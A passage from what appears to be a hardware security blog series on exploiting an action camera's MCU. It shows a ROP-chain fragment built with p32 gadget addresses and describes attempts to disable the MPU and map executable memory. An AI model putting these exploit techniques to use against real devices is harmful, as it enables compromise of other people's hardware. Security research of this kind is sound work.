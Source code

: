 ```
request += p32(0xdeadbeef) # r5
request += p32(0xc05c49d9) # r6 <- this is a thumb mode gadget
request += p32(0xc09afec0) # r7 <- this MUSt be this address (it is the address of a mutex we unlock)
request += p32(0xc03b2c40) # r8
request += p32(0xdeadbeef) # r9
request += p32(0xdeadbeef) # r11
request += p32(0xc03f4b90) # pc

# | 0xc03f4b90 | c03f4b90 | cpy r10,r0 | c03f4b98  | blx r8 | 
# | 0xc03b2c40 | c03b2c40 | mov r8,#0x0 | c03b2c44 | blx r6 |
# | 0xc05c49d8 | c05c49d8 | add.w r11,r10,r8 | c05c49e0  | blx r4  | <- clobbers r1/2, thumb as well probs, but sets the r11 to something we control
```

Cool, so now we have a much larger and less limited secondary ROP-chain to work with!

# Mapping Executable Memory

Now that we are less restrained on gadgets and values we can pop off of the stack (as we can now include null terminators), we should be able to figure out how memory is mapped, and reuse some of those functions to map some executable memory that we control.

## MPU or MMU?

At this point I still have no idea what the CPU in this MCU is, so I didn't know if it had an MPU or an MMU - I tried using the following function to turn the MPU off (which I reversed out of memory management functions) to disable all memory protections, letting me execute code:

![mem_read.png](/assets/images/analysing_an_action_camera_part_4/turn_off_mpu.png)

However this just kept resulting in weird crashes, even when I used gadgets to flush and invalidate the data/instruction caches - at this point I realised I would have to change strategy as this MCU probably doesn't have an MPU.

## Reversing Memory Mapping Code

As there aren't any nice commands for listing the memory map on this device, I had to manually search for where memory is being mapped. I ended up finding this function:
